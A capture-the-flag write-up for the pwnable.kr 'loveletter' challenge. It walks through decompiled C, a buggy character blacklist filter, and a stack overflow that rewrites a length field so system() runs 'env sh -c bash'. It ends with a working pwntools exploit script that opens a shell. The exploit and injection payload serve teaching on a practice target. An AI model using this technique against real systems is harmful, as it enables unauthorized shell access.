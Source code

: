 # Pwnable.kr loveletter CTF Writeup

## Problem Description
The code of the program is:
### main
```c
080493a5  int32_t main(int32_t argc, char** argv, char** envp)

080493ac      void* const __return_addr_1 = __return_addr
080493b4      int32_t* var_14 = &argc
080493cb      char** argv_1 = argv
080493d1      void* gsbase
080493d1      int32_t eax_1 = *(gsbase + 0x14)
080493ed      memset(&loveletter, 0, 0x100)
080493ff      size_t eax_3 = strlen(epilog)
08049414      size_t eax_5 = strlen(prolog)
08049429      printf(format: &data_804a021)
08049449      void buf
08049449      fgets(&buf, n: 0x100, fp: *stdin)
08049449      
08049470      if (*(&buf + strlen(&buf) - 1) == 0xa)
08049487          *(&buf + strlen(&buf) - 1) = 0
08049487      
08049499      puts(str: &data_804a03c)
080494ab      protect(&buf)
080494bd      size_t eax_12 = strlen(&buf)
080494d2      puts(str: &data_804a068)
080494fb      memcpy(&loveletter + zx.d(idx), prolog, eax_5)
08049511      idx += eax_5.w
08049539      memcpy(&loveletter + zx.d(idx), &buf, eax_12)
0804954f      idx += eax_12.w
08049577      memcpy(&loveletter + zx.d(idx), epilog, eax_3)
0804958d      idx += eax_3.w
0804959e      puts(str: &data_804a08c)
080495a6      gid_t egid = getegid()
080495b7      setregid(rgid: getegid(), egid)
080495c9      system(line: &loveletter)
080495d9      *(gsbase + 0x14)
080495d9      
080495e0      if (eax_1 == *(gsbase + 0x14))
080495f1          return 0
080495f1      
080495e2      __stack_chk_fail_local()
080495e2      noreturn
```

### protect
```c
08049216  int32_t protect(char* arg1)

08049235      void* gsbase
08049235      int32_t eax_1 = *(gsbase + 0x14)
08049240      int32_t var_127
08049240      __builtin_strncpy(dest: &var_127, src: "#&;`\'\"|*?~<>^()[]{}$\\,", n: 0x17)
08049240      
08049376      for (int32_t i = 0; strlen(arg1) u> i; i += 1)
08049350          for (int32_t j = 0; strlen(&var_127) u> j; j += 1)
080492c4              if (arg1[i] == *(j + &var_127))
080492e2                  void var_110
080492e2                  strcpy(&var_110, &arg1[i + 1])
080492f8                  *(arg1 + i) = 0xa599e2
08049308                  size_t eax_13 = strlen(&var_110)
08049337                  memcpy(&arg1[strlen(arg1)], &var_110, eax_13)
08049337      
08049397      if (eax_1 == *(gsbase + 0x14))
080493a4          return eax_1 - *(gsbase + 0x14)
080493a4      
08049399      __stack_chk_fail_local()
08049399      noreturn
```

when running, we see this:
```bash
loveletter@ubuntu:~$ ./loveletter
♥ My lover's name is : itamar
♥ Whatever happens, I'll protect her...
♥ Impress her upon my memory...
♥ Her name echos in my mind...
I love itamar very much!
```
The program gets an input and replace every character that is in the "blacklist" (can cause command injection) with an heart. we need to get a shell and read the flag.

## Analysis
The first thing i saw is that there is a bug in the `protect()` function. the bug is when the program replaces a character with an heart, it doesnt put a null terminator at the end. 
The bug is on this line:
`memcpy(&arg1[strlen(arg1)], &var_110, eax_13)`.
it should be:
`memcpy(&arg1[strlen(arg1)], &var_110, eax_13 + 1)`

in addition, each character is one bytes, however the heart is 3 bytes. that means that when replace a charater witg an heart, it makes the input string longer (by 2 bytes). We can also see that the max length of the input is 0x100 (256 characters), and its located on the stack. that means that we can use the fact that the `protect()` fucntion makes our input buffer longer to preform buffer overflow in the stack. when we look in the `main()` function we can see that its stack looks like this:
```
eax_3 (epilog length) - 4 bytes
----------------------
eax_5 (prolog length) - 4 bytes
----------------------
buf[0x100]            - 256 bytes
```

My first idea was to overflow eax_5 (prolog length) with 0, so `loveletter` will start with my input and than i can call a shell using: `sh -c bash `. thats because this way i can make the program to ignore to rest of the input (that is needed for the buffer overflow). thats because this way i give to `sh` two arguments: `bash` (a shell that i can read the flag from it) and the rest of the input. `sh` will only use the first argument and ignore the second.

However, there is a problem. There is no way to overflow eax_5 with 0 because the input buffer is increasing by two (and to change it to 0 it needs to be by 1). in addion i cant write 0 in the buffer because it will see it as null terminator and ignore it.

So i cant overflow it with 0 but i can with any other number. after some thinking, i relized i can use a part of the prolog string (from its start) to my command. the problem is my command (`sh -c bash `) starts with s and the prolog string starts with e. so what i can do it to use a command that starts with e and can be given a command as an argument that it will run it. 

After some recaherch, i found that `env` is great for this case. i can run: `env sh -c bash ` and it will open a bash shell and i can read the flag. all i needed to do it to change the prolog length to 1 and in the start on my input write `nv sh -c bash ` and when combining them it will run `system("env sh -c bash AAAAAAAA...)` which will open a shell.

To overflow eax_5 with 1, i just needed to write this at the end of the input:
`...AAA + #  + 0x01 + \0, 0x0c + 0x00 + 0x00 + 0x00` (the last 4 bytes is the prolog length) 
so after the `protect()` function it will look like this:
`...AAA + a5 +  99  + e2, 0x01 + 0x00 + 0x00 + 0x00`

In conclusion, the input should look like this:
`nv sh -c bash AAAAAAA...#/x01`

## Exploit Code
```python
from pwn import *

context.log_level = 'info'

session = ssh(user='loveletter', host='pwnable.kr', port=2222, password='guest')
p = session.process(['nc', '0', '9034'])

payload = b"nv sh -c bash "
payload += b"A" * (253 - len(payload))
payload += b"#"
payload += b"\x01"

print(payload)

p.sendline(payload)
p.interactive() # cat flag
```
